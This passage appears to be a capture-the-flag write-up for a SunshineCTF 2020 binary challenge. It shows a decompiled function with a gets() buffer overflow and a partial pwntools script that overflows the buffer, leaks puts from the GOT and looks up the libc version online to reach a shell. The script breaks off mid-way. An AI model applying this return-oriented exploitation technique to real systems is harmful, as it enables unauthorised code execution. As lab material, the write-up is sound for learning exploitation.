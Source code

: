 ### Decompile with Ghidra

```c
void vuln(void)
{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}
```

In my haste I kinda missed the boat on this one.  There's a `win` function called `systemFunc` that gives you a shell.

Every week I solve problem like this (sans the `win` function).  It is a basic ROP pattern of leaking the location and version of libc, then scoring a 2nd pass to then get a shell.  Which is exactly what I did here.  I should have been more suspicious given how short all the other speedruns were, however since I solve these all the time I was able to c&p and solve this in less than a minute anyway.

All the details of how this works is here: [newpax](https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/newpax).

All that is really different is the offset (`0x3e` from, you guessed it, `local_3e`).

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_13')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    libc_index = 1
    p = remote('chal.2020.sunshinectf.org', 30013)

p.sendlineafter('Keep on writing\n','foobar')

payload  = 0x3e * b'A'
payload += p32(binary.plt.puts)
payload += p32(binary.sym.vuln)
payload += p32(binary.got.puts)

p.sendline(payload)
_ = p.recv(4)
puts = u32(_)
log.info('puts: ' + hex(puts))
p.recv(20)

if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[libc_index]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
```